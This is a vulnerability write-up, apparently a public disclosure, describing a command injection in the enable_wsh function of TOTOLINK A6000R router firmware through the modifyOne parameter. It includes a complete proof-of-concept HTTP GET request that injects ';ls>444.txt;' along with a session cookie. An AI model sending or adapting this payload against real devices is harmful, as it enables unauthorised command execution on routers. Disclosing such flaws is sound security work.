






# TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (enable_wsh)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html


## Vulnerability Description

In the `/usr/lib/lua/luci/controller/admin/system.lua` file, there is a **command injection vulnerability** in the `enable_wsh` function via the `modifyOne` parameter.







Entry: `/admin/mtk/wsh_enable_submit?week=1&&desc=1&&start.min=1&&start.hour=1&&stop.min=1&&stop.hour=1&&addItem=save&&modifyOne=`




## Payload

We can trigger this vulnerability by injecting the `ls>444.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wsh_enable_submit?week=1&&desc=1&&start.min=1&&start.hour=1&&stop.min=1&&stop.hour=1&&addItem=save&&modifyOne=;ls>444.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=866791d2d6acb92c0a96268cb255aa80

```




After the injection, we can verify the result.


